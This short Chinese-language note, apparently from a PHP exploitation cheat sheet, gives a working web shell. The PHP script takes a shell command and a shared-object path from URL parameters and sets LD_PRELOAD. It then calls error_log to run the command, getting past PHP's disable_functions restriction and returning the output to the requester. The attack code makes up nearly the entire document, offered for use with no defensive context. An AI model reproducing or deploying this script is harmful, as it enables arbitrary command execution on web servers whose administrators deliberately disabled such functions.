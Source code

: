 ## error_log

> https://github.com/ianxtianxt/bypass_disablefunc_via_LD_PRELOAD/blob/master/bypass_disablefunc.php

将mail例子中的mail("", "", "", "");替换为error_log("a",1);

```php
<?php
    echo "<p> <b>example</b>: http://www.baidu.com/bypass_disablefunc.php?cmd=pwd&outpath=/tmp/xx&sopath=/var/www/bypass_disablefunc_x64.so </p>";

    $cmd = $_GET["cmd"];
    $out_path = $_GET["outpath"];
    $evil_cmdline = $cmd . " > " . $out_path . " 2>&1";
    echo "<p> <b>cmdline</b>: " . $evil_cmdline . "</p>";

    putenv("EVIL_CMDLINE=" . $evil_cmdline);

    $so_path = $_GET["sopath"];
    putenv("LD_PRELOAD=" . $so_path);

    error_log("a",1);

    echo "<p> <b>output</b>: <br />" . nl2br(file_get_contents($out_path)) . "</p>"; 

    unlink($out_path);
?>

```

